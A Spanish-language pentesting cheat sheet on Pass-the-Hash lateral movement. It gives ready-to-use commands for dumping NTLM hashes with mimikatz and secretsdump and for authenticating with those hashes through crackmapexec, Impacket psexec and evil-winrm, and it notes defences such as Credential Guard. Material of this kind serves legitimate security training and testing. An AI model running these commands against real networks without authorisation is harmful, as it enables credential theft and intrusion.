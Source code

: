**\[Pass-the-Hash]**

---

**Escenario**: Movimiento lateral o acceso remoto mediante hashes NTLM, sin necesidad de conocer la contraseña en texto claro.

**Requisitos Previos**:

* Acceso a un hash NTLM v1/v2 válido (obtenido con mimikatz, crackmapexec, responder, etc.).
* Conocimiento del nombre de usuario y dominio (si aplica).
* Conectividad de red con el objetivo (SMB, WinRM, RDP, etc.).
* Sistema remoto vulnerable (sin protecciones como Credential Guard o LSA Protection).

---

**Enumeración del Entorno**:

* Identificar sistemas Windows accesibles:

  ```bash
  nmap -p 445,139,3389,5985 <target-range>
  ```
* Determinar roles de los sistemas:

  ```bash
  crackmapexec smb <target-range> --shares
  crackmapexec smb <target-range> --sessions
  ```
* Enumerar usuarios y obtener hashes:

  ```bash
  secretsdump.py <user>:<password>@<ip>
  mimikatz: sekurlsa::logonpasswords o lsadump::sam
  ```

---

**Explotación (Pass-the-Hash)**:

* Usando `crackmapexec`:

  ```bash
  crackmapexec smb <ip> -u <user> -H <NTLM_hash>
  crackmapexec winrm <ip> -u <user> -H <NTLM_hash>
  ```

* Usando `psexec.py` (Impacket):

  ```bash
  psexec.py <domain>/<user>@<ip> -hashes :<NTLM_hash>
  ```
  ```bash
  impacket-psexec -hashes :<NTLM_hash> <domain>/<user>@<ip>
  ```

* Usando `evil-winrm`:

  ```bash
  evil-winrm -i <ip> -u <user> -H <NTLM_hash>
  ```

---

**Notas Adicionales**:

* Siempre verificar si el hash está relacionado a una cuenta local, de dominio o administradores.
* Credential Guard puede prevenir este ataque.
* Algunas configuraciones de GPO y LSA Protection también pueden bloquear el acceso remoto usando hashes.
* PTH en entorno Kerberos no aplica directamente: ver "Overpass-the-Hash".

---

**Herramientas Recomendadas**:

* Mimikatz
* Impacket (psexec.py, smbexec.py)
* CrackMapExec
* Evil-WinRM
